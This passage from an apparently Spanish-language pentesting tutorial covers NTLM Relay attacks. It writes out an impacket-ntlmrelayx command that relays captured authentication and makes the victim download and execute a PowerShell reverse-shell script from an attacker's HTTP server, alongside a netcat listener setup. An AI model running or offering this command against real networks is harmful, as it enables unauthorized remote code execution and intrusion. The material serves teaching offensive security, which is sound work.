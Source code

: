 ![](../../.gitbook/assets/nishang2.png)

Esto permitirá que podamos ejecutar la shell reversa directamente al subir el archivo a la victima ya que con el comando **IEX** haremos que lo ejecute directamente.

Por lo tanto, corremos un netcat a la escucha en el atacante (como en la sección anterior) y corremos un servidor http de python para enviar el script.

un impacket-ntlmrelayx que ejecute la subida de PS.ps1 a la victima.

`sudo impacket-ntlmrelayx -tf targets.txt -c "powershell IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.132:8000/PS.ps1')" -smb2support`

![¡Premio!](../../.gitbook/assets/nishang3.png)

## CONCLUSIÓN

Como vemos, el ataque NTLM Relay es más potente que el SMB Relay siempre y cuando contemos con permisos de ejecución de comandos en el activo objetivo.

Las capacidades de post-exploiting son las mismas que las de SMB Relay desde el punto de vista de que los dos ataques se encuentran accesibles en este punto.

## REFERENCIAS

[https://en.hackndo.com/ntlm-relay/](https://en.hackndo.com/ntlm-relay/)\
[https://en.hackndo.com/pass-the-hash/](https://en.hackndo.com/pass-the-hash/)

